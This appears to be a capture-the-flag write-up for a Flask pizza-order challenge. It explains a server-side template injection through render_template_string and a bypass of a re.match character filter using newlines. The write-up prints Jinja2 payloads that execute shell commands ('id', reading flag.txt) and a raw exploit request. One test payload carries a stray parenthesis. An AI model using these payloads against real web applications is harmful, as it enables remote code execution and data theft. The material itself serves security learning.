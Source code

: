 -   SSTI payloads

```python
# RCE
{{self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}

# Read flag
{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat$IFS/flag.txt').read()}}
```

```
POST /order HTTP/1.1
Host: kavi.local:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/
xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Origin: http://kavi.local:1337
Connection: close
Referer: http://kavi.local:1337/order
Upgrade-Insecure-Requests: 1

customer_name=
{{7*7)}}&pizza_name=Margherita&pizza_size=Small&topping=Mushrooms&sauce=Marinara
```

# Solution

1. Once you start doing code review using the given source code, you notice that there is a possible SSTI vulnerability due to using `render_teplate_string()` function unsafely.

```python
return render_template_string(
	"""
<p>Thank you, {}! Your order has been placed. Final price is ${} </p>
""".format(
		customer_name.split(" ")[0], str(final_price)
	)
)
```

2. But when you try to exploit it (`/order`) with a simple payload like `{{7*7}}`, we get an error saying `Invalid characters detected!`
3. Then we look at the code again to see that there is a check in the POST field to see it they contain any special characters.

```python
for item in [customer_name, pizza_name, pizza_size, topping, sauce]:
	m = re.match(
		r'.*[\!@#$%^&*()_+\-=[\]{};\'\\:"|,.<>/?`~].*', item, re.IGNORECASE
	)

	if m is not None:
		return """<p>Invalid characters detected!</p>"""
```

4. But since its using the `re.match()` and since it only does one-line matching, we can use multi-lines to bypass this : https://docs.python.org/3/library/re.html#re.match
5. So using a payload like below will bypass this and give us RCE

```
customer_name=
{{7*7)}}&pizza_name=Margherita&pizza_size=Small&topping=Mushrooms&sauce=Marinara
```
